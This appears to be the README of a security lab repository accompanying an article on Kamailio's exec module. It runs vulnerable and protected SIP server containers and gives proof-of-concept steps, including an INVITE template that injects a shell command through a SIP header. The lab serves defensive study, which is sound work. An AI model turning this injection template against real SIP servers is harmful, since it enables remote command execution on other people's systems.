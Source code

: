 # Kamailio exec module examples

This repository includes examples referenced from https://www.rtcsec.com/article/kamailio-exec-module-considered-harmful.

Note: depending on your Docker setup, you might need to use the command `docker compose` instead of `docker-compose`.

## Starting Kamailio

To run the vulnerable version of the Kamailio configuration:

```bash
docker-compose run kamailio-vulnerable
```

To run the protected version:

```bash
docker-compose run kamailio-protected
```

## Exploitation

We give two examples for exploitation, one making use of netcat and the other uses [SIPVicious PRO](https://www.enablesecurity.com/sipvicious/pro/) which is commercially available.

### Netcat PoC

1. Start monitoring the `/tmp` directory:

    ```bash
    docker-compose exec kamailio-vulnerable watch ls -alh /tmp
    ```

2. To run the PoC use the following instruction:

    ```bash
    cat poc.txt | nc 127.0.0.1 5060
    ```

3. Observe the result in the directory listing

## SIPVicious PRO PoC

When making use of the stable version of SIPVicious PRO, one may use the [repeater tool](https://docs.sipvicious.pro/stable/cui-reference/sip/utils/repeater/) to reproduce this issue as follows:

1. Save the following template as `inviterequest.tpl` (or switch to the `svpro` directory in this repository):

    ```
    INVITE sip:`$SIP_HF_COMMAND`@127.0.0.1 SIP/2.0
    Command: {{ ENV "COMMAND" }}
    Via: SIP/2.0/{{.AddrFamily}} {{.LocalAddr}};rport;branch=z9hG4bK-{{.Branch}}
    Max-Forwards: 70
    From: {{.FromVal}}
    To: {{.ToVal}}
    Call-ID: {{.CallID}}
    CSeq: {{.CSeq}} INVITE
    Contact: {{.ContactVal}}
    Content-Length: {{.Body | len}}
    Content-Type: application/sdp

    {{.Body -}}
    ```
2. Start monitoring the `/tmp` directory:

    ```bash
    docker-compose exec kamailio-vulnerable watch ls -alh /tmp
    ```

3. Run the PoC as follows:

    ```bash
    COMMAND="touch /tmp/pwned" sipvicious sip utils repeater udp://127.0.0.1:5060 -m invite
    ```

4. Observe the result in the directory listing

One may also make use of a new experimental tool called [iterator](https://docs.sipvicious.pro/experimental/cui-reference/sip/utils/iterator/) which can act like a scanner or fuzzer to identify this vulnerability semi-automatically.

## Build

The image is already available on the Docker registry. If you would like to build it, you may do so as follows:

```bash
docker-compose build
```

